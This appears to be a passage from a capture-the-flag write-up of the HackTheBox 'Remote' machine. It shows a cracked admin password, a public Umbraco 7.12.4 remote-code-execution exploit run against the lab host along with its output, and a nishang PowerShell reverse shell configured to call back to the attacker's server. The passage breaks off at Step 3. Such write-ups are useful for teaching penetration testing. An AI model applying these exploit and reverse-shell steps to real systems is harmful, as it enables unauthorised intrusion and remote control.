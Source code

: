 I take the `admin@htb.local` hash and cracked it using [Crackstation](https://crackstation.net/). `admin@htb.local : baconandcheese`

![Untitled](/img/htb-remote/Untitled%203.png)

While searching about `Umbraco` I found there is an exploit available for the version `7.12.4`. Let's confirm whether this is also same version.

```bash
root@w0lf:~/CTF/HTB/Boxes/Remote/mount# cat Web.config | grep umbracoConfigurationStatus
		[add key="umbracoConfigurationStatus" value="7.12.4" /](add key="umbracoConfigurationStatus" value="7.12.4" /)
root@w0lf:~/CTF/HTB/Boxes/Remote/mount#
```

Lets check whether this exploit works. [https://github.com/noraj/Umbraco-RCE](https://github.com/noraj/Umbraco-RCE)

```bash
root@w0lf:~/CTF/HTB/Boxes/Remote/Umbraco-RCE# python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c whoami
iis apppool\defaultapppool
```

It working, why don't we upload a reverse shell with nishang. I used `nishang/Shells/Invoke-PowerShellTcp.ps1` and copied that to my directory.

## Getting a Shell

### Step 1:

Started python server on my machine.

```bash
root@w0lf:~/CTF/HTB/Boxes/Remote# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

### Step 2:

If we look at the Shell it gives us some of the examples.

```bash
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port.
```

I copied the example and changed it to my IP and paste it at the bottom of the file.

![Untitled](/img/htb-remote/Untitled%204.png)

### Step 3:
